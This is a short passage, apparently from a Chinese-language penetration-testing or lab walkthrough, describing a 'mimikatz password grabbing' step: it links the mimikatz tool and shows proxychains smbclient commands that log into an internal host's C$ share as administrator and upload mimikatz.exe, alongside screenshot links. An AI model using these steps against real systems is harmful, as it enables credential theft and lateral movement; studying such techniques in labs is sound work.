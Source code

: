![img](assets/1685525839477-39197b22-cf1a-4f92-b4c8-79e3bea09357-1703395172701129.png)

### mimikatz抓取密码

https://github.com/gentilkiwi/mimikatz

通过smb共享上传mimikatz

proxychains smbclient //192.168.93.20/C$ -U administrator

put mimikatz.exe

![img](assets/1685523263912-9a37c34d-251d-4dd6-b6cd-9f359f3ace2f-1703395172702131.png)
